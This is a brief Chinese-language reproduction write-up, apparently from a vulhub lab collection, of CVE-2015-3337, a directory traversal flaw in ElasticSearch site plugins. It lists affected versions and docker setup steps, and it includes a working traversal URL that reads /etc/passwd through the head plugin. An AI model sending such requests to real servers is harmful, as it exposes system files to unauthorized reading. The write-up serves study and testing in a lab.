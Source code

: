 （CVE-2015-3337）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

在安装了具有"site"功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

二、漏洞影响
------------

影响版本：1.4.5以下/1.5.2以下

三、复现过程
------------

编译及运行测试环境

    docker-compose build
    docker-compose up -d

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://www.0-sec.org:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](./resource/(CVE-2015-3337)ElasticSearch目录穿越漏洞/media/rId24.png)

### head插件

head插件提供了elasticsearch的前端页面，访问
`http://www.0-sec.org:9200/_plugin/head/` 即可看到，不多说了。

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-3337/
